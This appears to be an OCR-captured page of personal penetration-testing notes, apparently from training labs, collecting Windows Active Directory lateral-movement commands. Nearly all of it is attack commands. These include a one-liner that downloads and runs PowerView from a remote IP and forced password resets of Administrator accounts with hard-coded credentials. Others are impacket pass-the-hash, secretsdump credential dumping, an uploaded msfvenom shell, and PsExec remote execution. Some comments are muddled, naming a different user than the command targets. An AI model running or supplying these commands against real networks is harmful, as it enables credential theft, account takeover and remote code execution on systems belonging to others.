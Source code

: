 ```bash
PS C:\Users\dave> $password = ConvertTo-SecureString "Dolphin1" -AsPlainText -Force

PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("sql_svc", $password)

PS C:\Users\dave> Enter-PSSession -ComputerName MS02 -Credential $cred

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
clientwk220\daveadmin
```

#### RDP Session Inception

```bash
Start-Process "$env:windir\system32\mstsc.exe" -ArgumentList "/v:dev04.medtech.com"
```

#### Force to Reset Password

```bash
# Import the PowerView module
iex (new-object net.webclient).DownloadString('http://192.168.45.231/PowerView.ps1')
# Convert the new password to a secure string                                  
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
# Create a PSCredential object with an account that has permissions to reset   
passwords	
$Cred = New-Object System.Management.Automation.PSCredential('web02.dmz.medtech.com\\Administrator', (ConvertTo-SecureString 'FGjksdff89sdfj' -AsPlainText -Force))

# Reset the password for the user 'nina'                                       
Set-DomainUserPassword -Identity 'Administrator' -AccountPassword $UserPassword -Credential $Cred -Verbose
# If you need to set the password for another user, repeat the process with the correct details
# For example, for a user named 'User.Name':
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('web02\Administrator', $SecPassword)
# Reset the password
Set-DomainUserPassword -Identity 'Administrator' -AccountPassword $UserPassword -Credential $Cred -Verbose
# Optionally, if you need to set a script path for the user object             
# Replace <User.Name>, $ip, <file> with actual values                          
Set-DomainObject -Identity 'User.Name' -Set @{"scriptpath"="\\$ip\share\<file>.bat"} -Credential $cred -Verbose            
```

#### Executing Remote Commands

```bash
# With a ticket
impacket-atexec -k admin02.corp.com "powershell -enc <command>"
# With password
impacket-psexec "web02/administrator:<password>@web02.corp.com" -c <path to binary>
# Get a shell with ntlm hash
impacket-psexec 'web02/administrator'@10.10.10.15 -hashes ':5bcoe56i4645ho43h2ei534rsat' # maybe take quotes off of domain/user
# Dump secrets from kali machine
impacket-secretsdump svcorp/pete@10.10.10.15 -hashes ':5bcoe56i4645ho43h2ei534rsat'
# Using evil win-rm with hash
evil-winrm -i 10.10.10.15 -u pete -H 5bcoe56i4645ho43h2ei534rsat
upload msfvenom_shell.exe # For a better shell
C:\Windows\Tools\msfvenom_shell.exe # Execute executable

# PsExec64.exe, make sure this file is transferred
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname